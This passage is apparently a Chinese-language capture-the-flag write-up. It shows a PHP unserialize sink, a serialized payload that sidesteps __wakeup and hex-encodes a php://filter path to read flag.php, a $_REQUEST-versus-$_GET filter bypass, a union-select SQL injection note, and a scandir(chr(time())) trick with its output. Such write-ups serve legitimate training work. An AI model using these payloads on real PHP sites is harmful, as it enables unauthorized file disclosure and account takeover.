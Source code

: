 ```php
	}
	$exp = $_REQUEST['exp'];
	$e = unserialize($exp);
	echo $e->Filename;
}
else{
	$exp = new FileReader();
}


?>
```

令属性数量与实际数量不同来绕过`__wakeup`

利用16进制绕过flag的限制

`O:10:"FileReader":4:{s:8:"Filename";S:71:"\70\68\70\3a\2f\2f\66\69\6c\74\65\72\2f\72\65\61\64\3d\63\6f\6e\76\65\72\74\2e\62\61\73\65\36\34\2d\65\6e\63\6f\64\65\2f\72\65\73\6f\75\72\63\65\3d\2f\76\61\72\2f\77\77\77\2f\68\74\6d\6c\2f\66\6c\61\67\2e\70\68\70";s:5:"start";i:0;s:10:"max_length";i:10000;}`



### 解法二

正则匹配的四`$_GET`,而传的参数是`$_REQUEST`,从而绕过



## sql1



union select 设置自己的密码拿到flag





## 禁止套娃



### 解法一



和bytectf2019有点类似 https://blog.zeddyu.info/2019/09/17/bytectf2019/ 





`var_dump(scandir(chr(time())));`



` array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" } `

chr,random_bytes
